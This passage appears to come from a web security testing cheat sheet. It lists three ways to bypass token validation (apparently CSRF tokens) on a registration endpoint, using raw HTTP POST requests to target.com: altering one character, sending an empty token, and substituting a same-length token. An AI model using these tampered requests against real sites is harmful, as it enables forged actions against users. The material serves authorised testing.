 1. Change single character

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```

Try this to bypass

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

1. Sending empty value of token

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```

Try this to bypass

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=
```

1. Replace the token with same length

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaa
```

Try this to bypass

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaabaa
```
